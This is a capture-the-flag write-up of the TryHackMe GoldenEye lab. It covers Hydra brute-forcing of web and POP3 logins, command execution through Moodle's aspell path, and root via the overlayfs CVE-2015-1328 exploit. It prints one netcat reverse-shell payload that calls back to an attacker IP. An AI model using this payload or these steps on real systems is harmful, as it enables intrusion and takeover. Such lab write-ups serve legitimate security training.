 ```yaml
---
title: GoldenEye TryHackMe Writeup
tags: [hydra,writeup,tryhackme,telnet,pop3,linux,overlays,aspell]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/1.png)

## Scanning
We perform a quick and aggressive scan (**not recommended in real environments**) to detect open ports on the server.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/2.png)

Then, knowing the ports, we will launch an nmap with scripts and versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/2-2.png)

## Enumeration

We access the website, find a message with the mission and it tells us to enter the *"/sev-home/"* directory to log in with *"UNKNOWN"* user.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/3.png)

We see that it asks for credentials, so we may need to brute force it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/4.png)

We review the source code, access the *"terminal.js"* file and identify an encoded password.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/5.png)

#### Password Decode

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/6.png)

We enter the credentials obtained (using the user *"boris"*) and we are invited to send an email to a GoldenEye supervisor.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/7.png)

We revisit the source code and list two supervisors.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/8.png)

We launch **Hydra** with a list of the two supervisors and a quick dictionary with most used passwords, we will get the new password of the user *"boris"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/10.png)

We connect by **Telnet** with the obtained credentials, we see that we have *3 mails* in the tray.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/11.png)

We read the *3rd email*, it seems that *Boris* saved the codes in the root of the root folder

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/12.png)

The next thing I tried was to catch all the users obtained from the emails and in the enumeration phase, I re-launched the same dictionary and the login credentials of the user *"Natalya"* appeared.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/13.png)

We use the new credentials, read the emails where we will get some credentials and a web address that we will have to add to our *"/etc/hosts"* file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/14.png)

We log in, check **Moodle** and find a message from a *"Dr. Doak"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/15.png)

We try again to brute force the POP3 service with the user *"doak"* and we get the credentials of this user. Yes, that's right! We reconnect via **Telnet** and see your emails ;)

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/16.png)

#### Credentials obtained from Doak mailings.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/17.png)

We connect to **Moodle** with the credentials obtained, look in its files and find one called *"s3cret.txt"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/18.png)

#### Contents of file "s3cret.txt":

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/19.png)

We access the path of the link and download the image to our kali.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/20.png)

We analyze with the tool "Exiftool" and we see that it contains a password encoded in base64.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/21.png)

## Exploitation

Log in with the administrator credentials, reviewing all the options we find the *"Path to aspell"* (we were previously given a hint of aspell).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/22.png)

#### Payload

```bash
sh -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f'
```

Create a new entry and click on the button.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/23.png)

#### Reverse shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/24.png)

## Privilege Escalation

We do a reconnaissance phase, but we do not find anything useful. We launch the **Linux exploit suggester** script, it lists several scripts that we can use. In my case, I used the *"CVE-2015-1328 - OVERLAYFS"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/25.png)

We host the file to compile it on the victim machine, but the **"gcc"** binary is not installed, but in the recognition phase we detect a binary called **"cc"**, if we use **"file"** on it we see several symbolic links until we find **"clang"**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/26.png)

We modify the exploit by changing the **"gcc"** binary to **"cc"**, compile and run the exploit becoming root.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/27.png)

We read the root flag and it gives us the path with the deactivation codes.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/28.png)

MISSION COMPLETED!!

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/29.png)




